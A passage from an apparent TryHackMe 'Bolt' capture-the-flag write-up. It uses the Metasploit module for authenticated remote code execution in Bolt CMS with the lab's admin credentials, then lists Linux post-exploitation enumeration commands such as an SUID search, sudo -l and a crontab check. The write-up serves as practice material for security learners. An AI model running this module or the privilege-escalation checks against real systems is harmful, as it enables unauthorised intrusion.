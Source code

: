 The command above will show the exploit code for the specified path given on searchsploit.

Basing on the tryhackme question, it suggests that we use the `metasploit module` for our exploit.

![Metasploit module](../imgs/Bolt/metasploit_module.png)

We will use the `exploit/unix/webapp/bolt_authenticated_rce` module for our exploit. To quickly select this module, type `use 0`

We just need to set the `LHOST`, `RHOST`, `USERNAME` and `PASSWORD` to successfully run the exploit module. The commands used are shown below. (*Note: Press ENTER key for every command*) Lastly type, `run` or if you want to be a cool kid, type `exploit`.

```bash
set LHOST [YOUR_THM_IP]
set RHOST [VICTIM_MACHINE_IP]
set USERNAME bolt
set PASSWORD boltadmin123
run
```

### Table 1.2: Credentials

Username | Password
:---: | :---:
bolt | boltadmin123

## Post-Exploitation

### *Internal Enumeration*

#### Table 1.3: Checklist for Linux Internal Enumeration

COMMAND | DESCRIPTION
:---: | :---:
``ss -tlnp``  | lists all sockets (``-t = tcp``) (``-l = listening``) (``-n = numeric``) (``-p = processes``)
``netstat -tulnp`` | &nbsp; |  &nbsp;
``sudo -l`` | lists all binaries/files/programs the current user has ``sudo`` permissions. (might require password)
``find / -type f -user root -perm -u+s 2>/dev/null`` | finds files in ``/`` directory that has [SUID](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) bit set. If any, consult [GTFOBins](https://gtfobins.github.io/).
``uname -a`` | prints system information (-a = all)
``whoami && id`` | prints `effective userid` (EUID) and prints `real` and `effective userid` and `groupids` (GID).
``cat /etc/crontab`` | checks for cron jobs.
